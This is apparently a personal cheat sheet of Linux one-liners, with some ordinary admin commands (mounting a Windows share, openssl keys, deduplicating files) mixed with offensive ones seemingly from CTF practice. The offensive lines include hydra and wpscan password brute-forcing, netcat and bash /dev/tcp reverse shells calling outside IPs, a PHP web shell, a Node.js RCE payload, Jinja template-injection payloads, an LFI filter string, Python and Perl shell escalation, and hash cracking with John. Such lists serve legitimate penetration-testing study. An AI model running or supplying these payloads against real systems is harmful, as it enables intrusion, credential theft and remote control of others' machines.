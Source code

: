 ### Accessing Windows Share folder in Linux

`mount.cifs //192.168.29.216/WindowsShare /root/Desktop/LinuxShare -o user=Ehsaan`

### Generate 20 Characters long string

`openssl rand -base64 20`

### Delete all specific file types in all subdirectories

`find . -name \*.srt -type f -delete`

### Create a 2048 bit RSA key with certificate

`openssl req --newkey rsa:2048 -nodes -keyout private.key -x509 -out certificate.crt`

### Remove Duplicates

`sort file.log | uniq -u`

### Number Images in a folder

`ls | cat -n | while read n f; do mv "$f" "file-$n.jpg"; done`

### Save terminal history by removing duplicates

`history | awk '{$1="";print substr($0,2)}' | sort | uniq -u | awk '{$1=$1};1' > history.txt;`

### Bruteforce ssh password using hydra

`hydra -l jack -P /usr/share/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.10.140.232 -t 4 ssh`

### Bruteforce WordPress with wpscan

`wpscan --url http://ehsaanqazi.com -t 3 -P /usr/share/wordlists/rockyou.txt -U user.txt`

### Oneliner reverse shell for WordPress

`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.29.216 1337 >/tmp/f") ?>`

### Use ssh with id_rsa key

`chmod 600 id_rsa ssh -i id_rsa jack@168.29.219`

### Python escalate privileges

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

### Convert the key for JohnTheRipper

`python3 Desktop/Tools/john/run/ssh2john.py id_rsa > john.txt`

### Crack hash with JohnTheRipper

`john --wordlist=/usr/share/wordlists/rockyou.txt john.txt`

### Bruteforce FTP password using hydra

`hydra -l ftpuser -P wordlist.txt 10.10.154.92 -t 4 FTP`

### Perl escalate privilidges

`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

### LFI exploit filter

`http://ehsaanqazi.com?view=demo.php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

### Execute commands within the machine

`<?php system($_GET['cmd']); ?>`

### Bash OneLiner Shell

`echo 'bash -i >& /dev/tcp/10.9.3.49/1337 0>&1' > shell.sh`

### Generate Interactive session with python

`python3 -c "import pty;pty.spawn('/bin/bash')"; export TERM=xterm`

### Enumerate users with wpscan

`wpscan --url http://ehsaanqazi.com --enumerate u`

### SMB Enumeration

`smbmap -H 10.10.31.208`

### Download files from SMB

`smbget -R smb://10.10.31.208/BillySMB`

### Extract info from images

`steghide extract -sf rabbit.jpg`

### Check for DNS Records

`nslookup -type=any ehsaanqazi.com 8.8.8.8`

### SSRF with Jinja list files

`{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}`

### SSRF with Jinja read files

`{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}`

### Nodejs RCE Payload

`require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.12.121 4444 >/tmp/f")`

### Bypassing rate limits ffuf

`ffuf -w ~/Desktop/wordlists/parameters.txt -t 1 -p 0.1 -H -u http://ehsaanqazi.com/FUZZ -mc 302,200,301,403 -s`

### Create a 2048 bit RSA key with a certificate

`openssl req --newkey rsa:2048 -nodes -keyout private.key -x509 -out certificate.crt`
